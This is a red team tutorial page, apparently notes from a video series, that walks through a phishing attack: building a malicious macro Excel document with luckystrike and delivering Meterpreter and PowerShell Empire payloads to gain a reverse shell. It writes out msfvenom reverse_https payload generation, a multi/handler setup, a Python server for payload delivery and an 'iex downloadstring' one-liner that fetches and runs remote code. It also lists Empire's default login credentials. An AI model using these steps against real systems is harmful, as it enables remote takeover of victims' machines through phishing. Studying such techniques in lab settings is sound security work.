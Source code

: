 # Exploitation

Now we are in the exploitation phase and all the tools list that are being used and their techniques are documented in the MITRE attack website which is linked below.

{% embed url="https://attack.mitre.org/" %}
It has all the techniques from exploitation to persistence to [Privilege Escalation](https://attack.mitre.org/tactics/TA0004)
{% endembed %}

So our phishing scenario will be :

1- Generate malicious document using luckystrike&#x20;

2- Send to the victim

3- Victim will open the document

4- C2 server will receive reverse connection through empire/metasploit



Now firstly we will install empire server in our kali linux so for that we will use the following command.

```
// sudo apt update
// sudo apt install -y powershell-empire starkiller
```

After that the installation is complete you can start the server by

```
// sudo powershell-empire server 
                and on the other tab type
// sudo powershell-empire client
```

After it will connect to the localhost you can also use the gui version of the starkiller in the browser.Simply open the localhost which is your machine ip on port 1337. It will ask you for credentials the default are **USERNAME::empireadmin  PASSWORD::password123.**

<figure><img src="../.gitbook/assets/Windows Red Team Exploitation Techniques _ Red Team Series 3-13 - YouTube - Brave 05-07-2023 00_36_51.png" alt=""><figcaption><p>Login Screen</p></figcaption></figure>

After you log in you will be redirected to the home page.

<figure><img src="../.gitbook/assets/Windows Red Team Exploitation Techniques _ Red Team Series 3-13 - YouTube - Brave 05-07-2023 00_36_59.png" alt=""><figcaption></figcaption></figure>

After that the first step is to start the csharp server by clicking on the **plugin tab > csharp server  > click start.**

Now click on listener **select http as type and select port 1335** and leave all as it is and click on submit.

Now go on **stagers > create > type windows/csharp\_exe > select listener http and you can also change the outfile name such as empire.exe > click submit, and download the payload.**

Now open terminal and we will be creating a metasploit payload also.

```shell
// msfvenom -p windows/meterpreter/reverse_https LHOST=(your ip) LPORT=8080 -f exe > payload.exe

```

After the payload is created we will set up the msfconsole

<pre class="language-sh" data-line-numbers><code class="lang-sh">msfconsole
use multi/handler
set payload windows/meterpreter/reverse_https
set LHOST (your ip)
set LPORT 8080
<strong>run
</strong></code></pre>

**Save both the payloads in same folder.And start the python server and download both the payloads in the windows machine.**

```
python3 -m http.server 8888
```

Now in the windows machine we will be downloading luckystrike&#x20;

Open powershell in the adminstrator mode and move to desktop and copy & paste the following command&#x20;

{% code fullWidth="true" %}
```powershell
// iex (new-object net.webclient).downloadstring('https://git.io/v7kbp')

```
{% endcode %}

But in order to run it properly download the github repository and extract it and paste it into Documets > WindowsPowerShell > Modules (if modules folder is not there create one)

```
// https://github.com/danielbohannon/Invoke-Obfuscation.git
```

Now open powershell administrator in this folder and then follow the command&#x20;

```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
```

and now open the luckystrike and it will run with no errors

```powershell
// .\luckstrike.ps1
```

**Now click 2-Catalog options > 1-Add payload to catalog > Title: Meterpreter https > leave all options > click executable in payload type and enter the path where the payload is stored > Now click on Main Menu.**

<figure><img src="../.gitbook/assets/Windows Red Team Exploitation Techniques _ Red Team Series 3-13 - YouTube - Brave 05-07-2023 01_51_09.png" alt=""><figcaption></figcaption></figure>

**Now go back choose 99 > select payload options > select the document type xls > and the select the meterpreter payload > choose the infection to certutil.**

<figure><img src="../.gitbook/assets/Windows Red Team Exploitation Techniques _ Red Team Series 3-13 - YouTube - Brave 05-07-2023 01_55_13.png" alt=""><figcaption></figcaption></figure>

Now again go back in the main menu.

And click on file options > generate new file > and the file will be successfully created

```
// (Note: You need to install the microsoft office or the luckystrike will not generate the payload) which you find out easily on the internet.
```

Now repeat the same steps as above to generate the second payload and open the payload and in the microsoft excel and enable the macros and you will get the reverse connection to your attacker machine.

<figure><img src="../.gitbook/assets/Windows Red Team Exploitation Techniques _ Red Team Series 3-13 - YouTube - Brave 05-07-2023 02_02_26.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Windows Red Team Exploitation Techniques _ Red Team Series 3-13 - YouTube - Brave 05-07-2023 02_02_38.png" alt=""><figcaption></figcaption></figure>

You can run shell commands and browse files from the starkiller as well as the msfconsole.

That's all in this chapter we will cover topics and techniques more in the other chapters.
